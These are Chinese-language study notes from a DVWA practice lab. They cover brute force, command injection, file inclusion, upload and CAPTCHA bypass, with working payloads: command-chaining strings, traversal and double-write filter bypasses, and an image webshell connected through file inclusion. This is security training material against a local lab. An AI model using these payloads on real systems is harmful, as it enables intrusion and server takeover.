


DVWA学习笔记


# Brute Force

## low

是个登录，输入账号密码，无验证码

burp抓包结果如下


其实改的只有url

用intruder模块爆破`username`和`password`字段，自己定义几个相关的用户名密码就行，爆破结果看长度


结果发现用户名是`admin`或者`Admin`，密码是`password`


## medium

同low

## hard

同low

## impossible

对于输入错误的账号密码，有保护机制，15min？


但是对正确的账号密码，即使被锁15min照样可以登录


需要注意的是我第一次用正确的账号密码登录时，在上面图片的下面还有一行字，提示已经尝试多少次，上次成功登录时间是1.10 18.00（大概是装DVWA的那天？），不过没截图


# Command Injection

## low

ping + 输入

windows下可以输入 ping 127.0.0.1 & dir，执行两条命令


## medium

ping 127.0.0.1 & dir依然可以用，看下源码


发现有输入过滤：将输入中的&&和;去掉了

推测low难度下&&也能成，发现确实可以

> 百度下发现，windows下连续执行命令有多种
>
> 1. x & y：先执行x，不管x是否可执行，都执行y
> 2. x && y：先执行x，若x不可执行就不执行y了
> 3. x || y：先执行x，如果x不可执行，才能执行y，否则y不执行


## high

ping 127.0.0.1 && dir失败

ping 127.0.0.1 & dir失败

推测把&&和&都过滤了，那么使用||，让命令1失败，命令2执行

ping . || dir，成功

看下源码发现||也过滤了，那我是怎么执行的。。？


改了下源码输出target

输入为`. || dir`时，target的值为  `. |dir`

我知道了，过滤|的时候，仔细看源码，其实是"| "，竖线后面有个空格，所以我输入. || d时，被干掉的是第二个竖线和它后面的空格（为什么不会先匹配||呢？可能是str_replace函数在处理多个替换串的时候，是先按第一个串扫一遍字符串，结束了再按第二个串扫一遍字符串，再结束了再扫第三个以此类推，由于"| "在前，所以它优先替换了

命令 ping . |dir会直接跳过第一个命令（现象上是这样，实际是这样嘛？），执行第二个命令，即dir


## impossible

查看源码，首先按.分割输入，然后要求分割成4块，且每一块都是数字，没办法了

同时加入了防CSRF攻击，是后话了


# Cross Site Request Forgecy (CSRF)

跳过


# File Inclusion

## low

文件结构

```
DVWA

--hackable

----flag

------fi.php

--vulnerabilities

----fi

------index.php

```

展现给我们的是index.php


这里url里没有写明白是index.php（搜索一下，index.php?可以简写为?），没关系，把page参数改改，让他报个错


点view help，要求我们利用文件包含漏洞查看../hackable/flags/fi.php里的5句名言，实际上少打了俩..

利用的url为：

http://192.168.168.216/DVWA/vulnerabilities/fi/?page=../../hackable/flags/fi.php


但这样只有3句？

page=file4.php提示我在干正确的事，没明白


此外，绝对路径和远程文件都可以成功


***

index.php源码是简简单单一个file，获取page参数


## medium

首先试试相对路径，发现不行，注意下面两张图里，../../xxx和../xxx都似乎被删掉了前面的../





然后试试报错出来的绝对路径，发现ok

http://192.168.168.216/DVWA/vulnerabilities/fi/?page=C:\software\phpstudy_pro\Extensions\php\php7.3.4nts\news.txt


此外试试远程文件，不行


看下源码


发现他过滤掉了http和https，以及相对路径，只能用绝对路径和ip地址咯？不，ip地址不行，因为也得http或者https去访问


利用url：http://192.168.168.216/DVWA/vulnerabilities/fi/?page=C:\software\phpstudy_pro\WWW\DVWA\hackable\flags\fi.php


看了博客发现str_replace函数有漏洞，双写漏洞，比如

http://=>hthttp://tp://，中间的http://被删了，但外壳保留下来了，依然能使用

http://192.168.168.216/DVWA/vulnerabilities/fi/?page=hthttp://tp://www.baidu.com


同理，本地的有

目标是../../hackable/flags/fi.php，../被过滤

../ => ....//

所以写成....//....//hackable/flags/fi.php

http://192.168.168.216/DVWA/vulnerabilities/fi/?page=....//....//hackable/flags/fi.php


除此之外，看博客还有发现可以用大写HTTP绕过

http://192.168.168.216/DVWA/vulnerabilities/fi/?page=HTTP://www.baidu.com


## high

看源码


满足2个条件之一可以不报错

1. 文件名file开头
2. 文件名是include.php


绕过的话，考虑第一个，file开头，file://C:\software\phpstudy_pro\WWW\DVWA\hackable\flags\fi.php

利用url：

http://192.168.168.216/DVWA/vulnerabilities/fi/?page=file://C:\software\phpstudy_pro\WWW\DVWA\hackable\flags\fi.php


看博客发现还有用page=file1.php../../hackable/flags/fi.php的，没看懂这什么写法


## impossible

看源码，枚举了一遍白名单，无解


# File Upload

## medium

尝试传php，提示只能传JPEG或PNG文件

看源码


只过滤type，我们用burp的compare模块看一下上传php文件和上传png文件的包的区别


发现Content-Type，一个是application/octet-stream，一个是image/png

拦截，改包，然后forward，成功


反馈


## high

看源码


strrpos(string, find)返回find在string中最后出现的位置

所以uploaded_ext是存的扩展名，白名单为jpg，jpeg，png

且getimagesize不能为0


所以可以用图片马绕过

图片马的制作：copy 1.png/b+2.php/a 3.png

连接需要用文件包含漏洞

修改下马的内容，加个phpinfo();，更直观显示

访问http://192.168.189.128/DVWA/vulnerabilities/fi/?page=file://C:\software\phpstudy_pro\WWW\DVWA\hackable\uploads\phppng.png进行测试，发现图片马里藏的php确实解析了


**然后就可以用蚁剑了，需要注意的是，用蚁剑连接文件包含漏洞是需要登录信息的，具体就是添加一个http header，内容填从burp里复制的cookie**


## impossible

看源码


注意其中的图片转换函数，会删掉图片马最后的php代码

观察文件大小


网上一张图，下面试试upload-labs


点绕过，空格，::$DATA


# Insecure CAPTCHA

## low

卡卡的，验证码模块似乎用不了

密码pass，新密码pass，看发出去的包，注意到step=1，那么试试step改成2，修改成功


看源码发现，逻辑为，step=1的包发送一次，然后返回验证码模块，过了的话再step=2发送一次，后台执行修改密码


## medium

admin/admin，看下包


发现和low级别差不多，改成step=2却提示不行，看源码


step=2的情况下还需要POST一个passed_captcha

改下包，随便设个值，过了


## high

看源码发现有一个


加了个POST的内容，但这个$SERVER不知道怎么定，包发出去之后


我发现回包里，有个注释在提示我。。把User-Agent改成reCAPTCHA即可


完事了


我觉得这个源码纯粹坑人，g-recaptcha-response这个名字我上哪猜去？



唯一的线索是这里，但我哪知道怎么拼上去的，大小写呢？